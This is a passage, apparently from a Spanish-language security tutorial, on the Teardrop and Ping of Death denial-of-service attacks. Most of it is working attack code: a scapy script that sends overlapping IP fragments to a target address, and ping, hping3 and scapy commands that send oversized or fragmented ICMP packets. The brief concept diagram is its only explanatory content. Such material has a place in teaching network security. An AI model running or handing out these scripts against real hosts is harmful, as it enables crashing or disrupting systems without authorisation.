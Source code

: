 #### Implementación del Teardrop Attack
```python
#!/usr/bin/env python3
from scapy.all import *

def teardrop_attack(target_ip):
    # First fragment - normal
    fragment1 = IP(dst=target_ip, id=12345, flags="MF", frag=0) / \
                UDP(dport=137, sport=7) / ("A" * 8)
    
    # Second fragment - overlapping with negative offset
    fragment2 = IP(dst=target_ip, id=12345, flags=0, frag=6) / \
                ("B" * 4)
    
    # Send fragments
    send(fragment1)
    send(fragment2)
    print(f"Teardrop attack sent to {target_ip}")

# Usage
teardrop_attack("192.168.1.100")
```

### Ping of Death

#### Concepto y Funcionamiento
```
Ping of Death Attack:
Normal ICMP Ping:
├── IP Header: 20 bytes
├── ICMP Header: 8 bytes  
├── Data: 32 bytes (default)
└── Total: 60 bytes

Ping of Death:
├── IP Header: 20 bytes
├── ICMP Header: 8 bytes
├── Data: 65,507 bytes (maximum for IP)
└── Total: 65,535 bytes (maximum IP packet size)

Problem:
65,535 bytes > MTU, causa fragmentación masiva
Algunos OS no pueden manejar reassembly de paquete tan grande
Result: Buffer overflow, system crash
```

#### Implementación Moderna
```bash
# Ping of Death tradicional (muchos OS modernos son inmunes)
ping -s 65507 target_ip

# Variante con fragmentación específica
hping3 -1 -d 65507 target_ip

# Custom implementation con control de fragmentación
python3 -c "
from scapy.all import *
# Create oversized packet that will fragment
packet = IP(dst='192.168.1.100')/ICMP()/'A'*65000
send(fragment(packet, fragsize=8))
"
```
